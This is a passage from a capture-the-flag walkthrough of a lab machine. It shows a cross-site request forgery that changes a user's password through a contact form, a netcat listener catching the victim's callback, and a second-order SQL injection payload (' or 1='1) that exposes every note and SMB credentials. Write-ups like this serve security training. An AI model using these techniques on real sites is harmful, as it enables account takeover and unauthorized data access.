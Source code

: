 #### XSRF in Action

The combination of the `/change_pass.php` accepting GET and not
requiring the current password, and my ability to get someone to click
on links in the `/contact.php` page provides an opportunity for a
Cross-Site Request Forgery (XSRF) attack.

I'll include url to change the password in the message, and then another
for our local host, when I see a callback, I can try to log in as tyler.

So, send the following message:

![](/img/1547401103433.png)

Then wait and watch nc:



    root@kali# nc -lnvp 80
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.97.
    Ncat: Connection from 10.10.10.97:49733.
    GET /complete HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
    Host: 10.10.14.15
    Connection: Keep-Alive



Once I see the hit, try logging in as tyler/password, and I'm in as
tyler:

![](/img/1547401190130.png)

The interesting note is the 3rd, "new site", which seems to have SMB
credentials:

![](/img/1529701030989.png)

### Unintended Route: Second Order SQLi

There's a second order SQL injection vulnerability in the site. If I
register as username `' or 1='1`, and then use that to log in, I'll get
access to all the notes in the site:

![](/img/secnotes-sqli.gif)

In [Beyond Root](#second-order-sqli), I'll go in detail as to why this
works, and what mistake I made writing the site.

## SMB access as tyler

Using the creds from the site, I'll use `smbmap` to see what I now have
access to:
